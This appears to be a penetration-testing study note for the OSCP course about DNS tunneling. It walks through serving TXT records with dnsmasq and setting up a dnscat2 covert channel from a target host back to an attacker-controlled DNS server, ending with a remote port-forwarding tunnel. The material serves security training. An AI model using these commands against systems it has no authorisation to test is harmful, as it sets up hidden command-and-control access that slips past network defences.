 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/k-port-redirection-and-tunneling/4-dns-tunneling/","updated":"2024-01-05T11:36:23.862+01:00"}
---
```


-------
## Manual DNS TXT Record Infiltration with dnsmasq:
1. Edit 'dnsmasq_txt.conf' on controlled dnsmasq server. Example:
```
# TXT record
txt-record=www.feline.corp,here's something useful!
txt-record=www.feline.corp,here's something else less useful.
```
2. Start dnsmaq:
```
sudo dnsmasq -C dnsmasq_txt.conf -d
```
3. Check that DNS requests are properly routed on target:
```
resolvectl status
```
4. Run a TXT resolution from the target to the server:
```
nslookup -type=txt www.feline.corp
```

--------------
## DNS Tunneling with dnscat2:
1. Start dnscat2-server on your authorative DNS server:
```
dnscat2-server <domain>
```
2. Transfer the dnscat binary to the target from: https://github.com/iagox86/dnscat2
3. Start the clients and connect them:
```
./dnscat --secret=<secret> <domain>
```
4. Enter your initiated window from the server:
```
#List active windows:
windows

#Enter the window:
window -i 1
```
5. Set up remote port forwarding tunnel:
```
listen 0.0.0.0:2345 <outip>:<outport>
```
6. Use tunnel with server port and ip = win!

